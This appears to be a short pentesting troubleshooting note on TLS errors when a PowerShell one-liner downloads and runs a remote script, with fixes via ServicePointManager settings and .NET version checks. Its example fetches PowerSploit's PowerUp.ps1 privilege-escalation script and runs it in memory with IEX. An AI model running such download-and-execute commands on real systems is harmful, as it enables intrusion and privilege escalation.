

DownloadString
When we are using one-liner to Download a file from the Internet and then execute directly a command from it
example:
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 ');
Errors:
or

Solution
This can happen when we use older versions of Windows and a site no longer accept TLSv1, which winhttp uses by default. .
To do that we have different option
• Have a version of Powershell equal or greater to 3.0
PS> Get-Host
• change values of Net.ServicePointManager
PS> [Net.ServicePointManager]::SecurityProtocol = "tls12, tls11, tls, Ssl3"
or in alternative
PS> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
or in alternative install .NET 4.6.2 that changes the default TLS scheme to 1.2
PS> (Get-ItemProperty "HKLM:SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full").Release
to check the release of .NET correspondent to DWORD of Release go to this site
Error:
if we have this error

see https://blog.ukotic.net/2017/08/15/could-not-establish-trust-relationship-for-the-ssltls-invoke-webrequest/